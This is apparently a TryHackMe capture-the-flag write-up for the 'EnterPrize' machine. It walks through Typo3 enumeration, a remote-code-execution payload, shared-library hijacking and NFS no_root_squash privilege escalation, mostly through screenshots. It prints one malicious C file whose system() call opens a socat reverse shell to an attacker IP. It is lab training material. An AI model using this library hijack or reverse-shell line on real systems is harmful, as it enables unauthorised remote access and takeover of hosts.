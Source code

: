 # EnterPrize TryHackMe Writeup
### Level: `Hard` | OS: `Linux`

![logo](1.jpeg)

## Scanning
We launch **nmap** to all ports, with script and software version.

![](2.png)

## Enumeration
We access the web resource, but there is nothing.

![](3.png)

We launch the **nikto** tool and find the file *"composer.json"*, these files usually reveal interesting information.

![](4.png)

#### Contents of the file "composer.json"

![](5.png)

It seems that there are leftover files from **CMS Typo3**, I check several paths but I can't find anything.... But maybe it is in another *subdomain* by virtual hosting (vhost).

We launch the **wfuzz** tool in vhost mode:

![](6.png)

We add the subdomain to our */etc/hosts file*, access the new site and find the **Typo3 CMS** that we listed information in the previous file.

![](7.png)

For this CMS I used the **[Typo3Scan](https://github.com/whoot/Typo3Scan)** tool to find vulnerabilities in this cms.

![](8.png)

List the control panel:

![](9.png)

We enter credentials by guessing, it seems to work, but the site has gone into maintenance mode and we no longer have access to the panel.

![](10.png)

We launch **dirsearch**, list several interesting files and folders.

![](11.png)

Access the *"/typo3conf"* directory and list the *"LocalConfiguration.old"* file.

![](13.png)

#### Part of the content of the "LocalConfiguration.old" file

![](14.png)

![](15.png)

## Exploitation

In view of the above, I search for information about exploits and find this interesting **[article](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html)**.

We list the sections of the site, we find a form from which we could carry out the exploitation.

![](17.png)

We follow the instructions in the article and create a payload to generate the file *"m3.php"* and execute commands through it.

![](18.png)

#### Sending malicious request:

![](19.png)

#### Proof of concept

![](20.png)

#### Reverse shell

![](21.png)

We make an enumeration in the only user that has home, we find some files and a binary that seems interesting.

![](26.png)


We check the libraries, we see that it calls *"libcustom.so"*, we see that we also have write permissions, so it would make a lot of sense to replace the file with another illegitimate one.

![](27.png)

#### Contents of file libcustom.c

```C
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void do_ping(){
    system("/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.62.222:5555", NULL, NULL);
}
```

We see that the configuration file has a symbolic link to a *"test.conf"* file in the folder, this file is not found but we can write it.

![](29.png)

We run the **pspy64** tool and we see that every few minutes it executes the binary and with it our reverse shell.

![](28.png)

We wait a few minutes, get shell as the user *"john"* and read the user flag.

![](30.png)

## Privilege Escalation
In the previous enumeration, we saw that there is an nfs working internally, but we did not have access with the user *"www-data"*. 
In the evidence we see that it is vulnerable to **"no_root_squash"**, this vulnerability would allow us to be able to run a shared binary on our machine and get the same privileges of its SUID.

![](23.png)

Hacemos port forwarding con **chisel** al servicio **NFS**.

![](31.png)

We authenticate as root, create a malicious binary, compile and give it permissions.

![](34.png)

Run the binary from the victim's nfs directory and you will become root.

![](35.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
